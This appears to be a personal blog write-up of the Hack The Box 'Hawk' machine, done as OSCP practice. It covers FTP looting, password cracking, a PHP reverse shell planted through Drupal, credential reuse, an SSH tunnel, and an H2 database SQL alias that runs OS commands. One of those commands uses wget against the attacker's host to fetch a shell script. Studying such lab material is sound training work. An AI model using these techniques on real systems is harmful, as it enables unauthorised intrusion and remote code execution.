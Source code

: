 ```yaml
---
title:  "Hack The Box / Hawk"
date: 2020-02-04
tags: [Penetration Testing, Hacking, Hack The Box, Jeeves, OSCP, Offensive Security]
header: 
  image: "assets/images/hawk/hawk-header.png"
---
```

Hawk is our eighth machine in the OSCP list provided by [NetSec Focus](https://www.netsecfocus.com/)! Flaws with FTP, file coded in base64, services running, tunneling, and a new way to do some privilege escalation are part of this machine with hawk! The learning acquired from here shows some common flaws and misconfigurations. This is the eighth blog before my third attempt to the OSCP exam, so let's get to it!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/list.jpg" alt="nmap scan">

## Information Gathering


### Nmap Scan
So, we start with a nmap scan to check what ports are open and what services are running in this machine.
```
nmap -sC -sV -p- -oN scan.nmap 10.10.10.102
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/nmap.png" alt="nmap scan">

There are couple ports and services running such as FTP in port 21 (which we can log in an anonymous), SSH in port 22, HTTP in port 80, and H2 Database in port 8082. There are other ports that are not named in this article.

### Loging FTP as Anonymous
So as I said before, we can login in FTP as anonymous user, and actually, going to the directory ```messages``` there is a file that might contain interesting information which is  ```.drupal.txt.enc```

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/ftp.png" alt="nmap scan">

aftergetting the file, we see that has a password and it is base64 encoded, so let's decode it. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/ftp-gotten.png" alt="nmap scan">

So, to decode we use the command with [base64](https://linux.die.net/man/1/base64) to get the file.
```
base64 -d drupal.txt.enc > drupal_decode.txt.enc
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/decode.png" alt="nmap scan">

Great! Now it's time to crack the password!

### Brute Forcing SSL Salted Password

As we saw the format displayed with the images above, there is a program that can help us to crack this SSL salted password called [bruteforce-salted-openssl](https://github.com/glv2/bruteforce-salted-openssl), and we are using the wordlist rockyou. 
~~~ s
root@kali:~/htb/coffee/hawk/10.10.10.102# bruteforce-salted-openssl -t 6 -f /usr/share/wordlists/rockyou.txt -d sha256 drupal_decode.txt.enc
Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Tried passwords: 27
Tried passwords per second: inf
Last tried password: secret

Password candidate: friends
~~~

Great, so the password in order to get this file is ```friends```, let's see what we find inside. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/cracked.png" alt="nmap scan">

So, there is a note about the password for the portal, looks like we have to login in our HTTP port from our browser using the password  ```PencilKeyboardScanner123```.

### Login & Reverse Shell

Getting in the portal from our browser we can login as ```admin``` with the password found it before which is ```PencilKeyboardScanner123```, and we're in! Now it's time to see how we can get a shell from here.

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/got-admin.png" alt="nmap scan">

Looking at different things, there is the possibility to publish an article, but just HTML is allow to put in here, but if we want to execute some php code, in ```modules```, we can see the posibility to allow to write articles in php. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/modules.png" alt="nmap scan">

Now, once we set the option to write articles in php, we can go to ```Add Content``` and put our [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) from Pentest Monkey, then change some parameters such as IP and Port. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/before-shell.png" alt="nmap scan">

Set up a netcat listener, save the file, and get the shell!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/shell-gotten.png" alt="nmap scan">

Wolah! We got a shell. 

### User Flag

Extrangely we can get the user flag as www-data!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/user-flag.png" alt="nmap scan">

But, would be nice if we escalate privileges to Daniel, right?

### Privileges Escalation to Daniel

Doing basic enumeration, there was information that MySQL was running in the system and drupal can manage some credentials from MySQL, so googling things such as __drupal mysql settings__, there was a page explaining that you can find the credentials at ```/var/www/html/sites/default/settings.php``` and correctly we found some credentials linked to Daniel user. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/passwordfound.png" alt="nmap scan">

Now havinf the credentials it's time to get in the system as Daniel, so 
```
su daniel
```
We can overpass the python entry by the pty library...
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/daniel.png" alt="nmap scan">
 
 And we're in once again! Also, we can read the flag. 

 <img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/flag-daniel.png" alt="nmap scan">

 Looks like time to escalate to root, huh?

 ### Privileges Escalation to Root

 Do you remember the port 8082 running H2 Database? Well, we can find it in the enumeration by running [LinEnum.sh](https://github.com/rebootuser/LinEnum).

  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/H2.png" alt="nmap scan">

  we can find it in services as well. 

   <img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/services.png" alt="nmap scan">

   The problem here is that when we visit the website as ```http://10.10.10.102:8082/``` and we can log in due to it's not allowed to let people from outside to log in. So, having Daniel's credentials we can do some tunneling and get the service from our local host. 

   ```
ssh -L 8080:127.0.0.1:8082 daniel@10.10.10.102
   ```
So, basically what we're doing here is to tunnel the service running in port 8082 to our localhost to run in port 8080. Then, after doing this, we can get in ```http://localhost:8080/```. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/h2-database.png" alt="nmap scan">

So, where it says test we can change it to ```root``` and get access to the console. Once in the console we can add some kind of MySQL sintax where we can use wget in order to get our reverse shell. The shell used is a Bash TCP shell, so this is the sintax in order to download our file, before doing this remember to set up an HTTP Server in your localhost. 
```SQL
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('wget http://10.10.16.80/shell')
```
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/wget.png" alt="nmap scan">

After this is time to rename the file ```shell``` to ```shell.sh``` and give it execution permisions, after doing it we can set up our netcat listener and call the shell. 

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/call-shell.png" alt="nmap scan">

### Root Flag

After getting the root it's time read the flag because we owned the system!

<img src="{{ site.url }}{{ site.baseurl }}/assets/images/hawk/root-flag.png" alt="nmap scan">

## To conclude

This machine was complex for me due to my lack of knowledge of MySQL Sintax, there were some good readings in interenet but [0xrick](https://0xrick.github.io/hack-the-box/hawk/) was pretty helpful with this. The privilege escalation was not that curious due to the drupal documentation about the credentials, but stills fun!
